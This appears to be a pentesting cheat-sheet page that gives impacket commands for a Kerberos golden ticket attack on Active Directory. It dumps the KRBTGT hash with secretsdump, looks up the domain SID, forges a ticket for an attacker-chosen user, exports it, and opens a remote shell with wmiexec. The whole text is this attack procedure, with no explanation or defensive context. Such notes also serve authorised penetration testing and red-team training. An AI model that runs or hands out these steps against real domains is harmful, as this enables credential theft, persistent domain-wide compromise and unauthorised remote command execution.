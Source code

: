 ### Get KRBTGT hash
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost> -just-dc-user krbtgt
```

### Get Domain SID
```
impacket-lookupsid <domain>/<user>:<password>@<rhost>
```

### Create ticket
```
impacket-ticketer -nthash <ntlmHash> -domain-sid <sid> -domain <domain> <attackerUser>
```

### Export ticket
```
export KRB5CCNAME=<ticketFile>
```

### Use ticket
```
impacket-wmiexec -k -no-pass <fqdnRhost>
```

